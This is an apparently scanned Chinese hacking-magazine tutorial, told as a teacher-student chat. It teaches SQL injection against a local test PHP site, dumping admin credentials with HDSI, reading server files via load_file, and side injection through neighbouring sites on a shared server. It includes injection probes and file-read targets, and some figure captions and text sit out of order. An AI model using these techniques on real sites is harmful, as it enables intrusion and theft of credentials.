

为了检测一下 cc.asp 文件是否建立成功，我使用 IE 打开该文件发现代码已经被执行了，因为报错了（图27）。在“Lanker 微型 PHP+ASP 管理器”中将木马地址更改成 cc.asp 的 URL 地址，在左侧功能区选择“环境变量”，提交后进行连接，成功得到了一个 WEBSHELL（图28）。





（文章中涉及到的工具 D_SQLTools2.0、ASP+PHP 两用 Shell、DeMD5 暴力破解工具、备份数据库利用工具、NBSI2.5Xiaolu 以及动画文件已经收录在光盘中）

## 菜鸟师徒行
## 网络入侵也简单（下）

阿布（周五杰）


“哎，都放假了！哎，都回家了！哎，都不上网了！神啊，谁可以陪陪我，让我不要这么的寂寞！”阿布正郁闷地自言自语。话刚说完，燕MM居然就来了^_^（经常玩QQ的朋友都知道，QQ有个为好友设置自动问候的选项，所以燕MM一上线就会自动问候哦）。

还没等燕MM发话，阿布就欣喜地说道：“神呀！太感谢你了！宝贝徒弟，你可是神专门从天上派下来安慰我寂寞心灵的天使？”看到阿布突然说出这么古怪的话，燕MM不由得问道：“破布师父，你不会是前几天考试把脑袋给考坏了吧！考试真折磨人呀，下个月我也要考三级网络，不会也像你那样给考出神经病吧。最近天气好冷，今天又下雪了，小手都不敢往外伸。对了，师傅你怎么知道我上线了？比我打字都快呀。”

阿布笑了笑说道：“你不是连上线的……算了，给你讲吧！我点击你QQ的头像会出现一个查看好友资料，然后有个备注/设置，里面有个‘如果该好友上线则发出自动问候’，把前面那个对勾选上就OK了。只要你一上线，我的QQ就会自动地发出问候消息。”

燕MM佩服地说道：“真厉害呀，师傅，你怎么什么都知道啊！”虽然这只是一个非常弱智的、地球人都会的问题，不过听到燕MM的夸奖，阿布心里还是挺高兴的。燕MM又迫不及待地问道：“布师傅，今天你要教我什么呢？时间宝贵哦，我们快点开始吧。”

阿布看到燕MM居然叫自己布师傅，冷得浑身起了鸡皮疙瘩，猛喝了一大口咖啡，然后镇定地说道：“我们接着讲上次的内容，这节课还是讲网站的攻击。”

#### 一、PHP 注入一点通

其实不光 ASP 网站可以进行注入，PHP 网站也是可以被注入的，甚至于连 JSP 网站也可以被注入。在网络上使用最广泛的就是 ASP 和 PHP 网站。在前几节课中我们已经详细地介绍过了关于 ASP 网站的入侵技术，那么这次我就给大家介绍一下 PHP 网站的注入。

先来补习一下 PHP 注入的基础知识：PHP 的运行环境一般是 Apache+PHP+MySQL。通常服务器配置的时候会打开 php.ini 里的安全模式，也就是将 safe_mode 设为 on；还有就是将 display_errors 设为 off，即关闭错误显示。还有一个重要的配置就是 magic_quotes_gpc，高版本默认为 on，以前的版本中默认为 off，其作用就是把提交的变量中所有的“'”（单引号）、“"”（双引号）、“\”（反斜线）和空字符自动转换为含有反斜线的转义字符，例如把“'”变成“\'”，把“"”变成“\"”，这一点足够让我们郁闷的了，有时候遇到了字符型也只能说再见了。

我们如何检测一个地址是否存在 PHP 注入呢？相信大家在看了上期杂志后都掌握了关于 ASP 的注入检测，但是 PHP 与 ASP 相比还是有些不同之处的。我们仍然进行手工检测，打开“http://127.0.0.1/ymdown/show.php?id=21”（图1），和 ASP 有点相似吧。我们在后面加上一个单引号，程序出错了，而且爆出了程序的绝对路径（图2），“C:\AppServ\www\ymdown\global.php”就是当前 PHP 文件的绝对路径，这个爆出的路径在我们以后的入侵中可能会有用的。

我们在正常的地址后面加上“and 1=1”，可以看到返回了正常的页面（图3）；再在正常的地址后面加上“and 1=2”，返回了错误的页面（图4）。







## 菜鸟学堂


好了，现在我们就可以认定这个地址存在注入漏洞了。在正常的地址后面加上“/*casper”，还是返回了正常的页面，这就可以确定它使用的是 MySQL 数据库（图5）。

为什么呢？这是因为“/*”是 MySQL 里的注释语句，“/*”后面的“casper”只是当作注释而已。现在已经检测到一个 PHP 注入点了，那么如何进行注入操作呢？我推荐大家使用 HDSI，这是教主编写的一款集合 ASP 与 PHP 的注入工具。

打开 HDSI，直接点击最左边一列的“PHP 注入”来进入 PHP 注入界面，在“注射地址”栏输入刚才检测出漏洞的注入点地址“http://127.0.0.1/ymdown/show.php?id=21”，还需要填写关键字符，这个就相当于 ASP 注入里的特征字符了，我选择了页面中的“测试”二字（图6）。




点击“开始”按钮就会自动检测字段长度了，检测完毕后，我们可以通过 HDSI 自带的浏览器看到页面中的字段都被 1、2、3 等数字所代替了，这里就是 ASP 和 PHP 注入的不同之处。接下来就是猜解数据库了，先联表名，然后再猜解列名（图7）。

那么如何才能获取管理员的账号信息呢？在 PHP 注入中采用的是爆记录的方法，而不用像 ASP 里一个个字符进行猜解了。在右侧有爆记录的选项，“字段—位置”就是询问你字段爆出来的东西显示在页面哪个字段的地方。根据我的观察，页面中 4 和 6 两个位置不错，分别将它们设置为字段一和二的位置；然后点击“已猜解列名”中的列名和“已猜解表名”中的表名。点击“确定”按钮后就可以将管理员的账号信息爆出来了（图8）。把目光再次投到 HDSI 所带的浏览器中，可以清楚地看到管理员的账号密码（admin/7788521）。

有了管理员的账号和密码，还得找后台啊！这点和 ASP 一样，怎么找呢？在 HDSI 里同样也可查找后台，点击“猜解数据库”旁边的“后台扫描”，然后点击“扫描”按钮，HDSI 就会自动判断后台了（图9）。找到后台后，打开 IE 输入后台地址，使用刚才得到的管理员账号和密码直接登录就可以了（图10）。




在 PHP 中不光可以检测数据库中的数据，还可以利用 MySQL 中的 load_file 函数进行读文件。能读哪些文件呢？这就得看你的权限有多大了，如果是 ROOT 权限的话，那就是想读什么就读什么。当然也不能随便地读，要充分利用系统资源，比如可以读该数据库的链接文件，或者 SERV-U 的配置文件等，HDSI 也继承了这个功能（图11）。



图9



图12

#### 二、旁注来帮忙

有时候我们在入侵一个站点时发现很难入手，但又不想放弃，那么该怎么办呢？对于这种情况，我们就可以使用旁注的方法来进行迂回式的入侵了。什么是旁注呢？顾名思义就是从旁边注入，也就是利用服务器上的另一个虚拟站点进行渗透入侵，在成功得到 webshell 后，再利用服务器的其它漏洞得到最初想入侵的那个站点的权限。

如何寻找同一服务器上的其它站点呢？我们再引入 WHOIS 概念。简单地说，whois 就是一个用来查询域名是否被注册以及注册域名详细信息的数据库（比如域名所有人、域名注册商、域名注册日期和过期日期等），并且一些 whois 服务器还可以查询出该服务器上绑定了多少个域名，分别是哪些域名等信息。一般的查询方法有两种：通过工具查询和通过网站查询，其实原理都是一样的。我们再来介绍另一款综合注入工具 Domain3.5，它是明小子开发的一款针对 ASP 注入的工具。由于它在旁注方面非常出色，所以我把它划到了旁注工具部分（图13）。



图10


图11

在右侧有个“读文件”的选项，“loadfile 的位置”就是将爆出来的文件内容显示在页面中哪个字段位置。我选择的是 12 号字段。“目标绝对路径”就是问你想读哪个文件，必须写文件的绝对路径。还记得最初我们爆出的绝对路径吗？在这儿终于派上用场了。我们来测试一下权限的大小，进行读取 C 盘根目录的 boot.ini 文件，在其中输入“c:\boot.ini”，然后点“确定”，刷的一下文件内容就爆出来了（图12），原来还是 ROOT 权限呀，那么就可以读取所有文件了。

